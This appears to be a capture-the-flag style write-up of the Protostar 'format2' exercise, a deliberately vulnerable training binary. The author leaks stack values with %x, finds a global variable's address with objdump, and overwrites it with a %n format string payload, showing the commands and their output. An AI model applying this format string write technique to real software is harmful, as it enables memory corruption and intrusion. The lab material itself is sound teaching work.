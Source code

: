 #Format 2

Similar to last challenge except this time, we have to write the value "64" to target. 

At first I try to print the value from the stack to check where the argument for printf is.

```
[01:00:39] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format2$python -c 'print "AAAA" + "%x.%x.%x.%x"' | ./format2 
AAAA200.f7fbdc20.f7fec328.41414141
```

Then get the address of global variable "Target"

```
[01:04:32] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format2$objdump -t format2 | grep "target"
0804a030 g     O .bss	00000004              target
```

Overwrite the "poistion" with our "target" address and write 60. 

```
(python -c 'print "\x30\xa0\x04\x08" + "%60x" +  "%4$n"') | ./format2
```

In case you are wondering why %60:

```
[01:09:42] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format2$(python -c 'print "\x30\xa0\x04\x08" + "%64x" +  "%4$n"') | ./format2 
0�                                                             200
target is 68 :(
```
I think this is due to the padding.

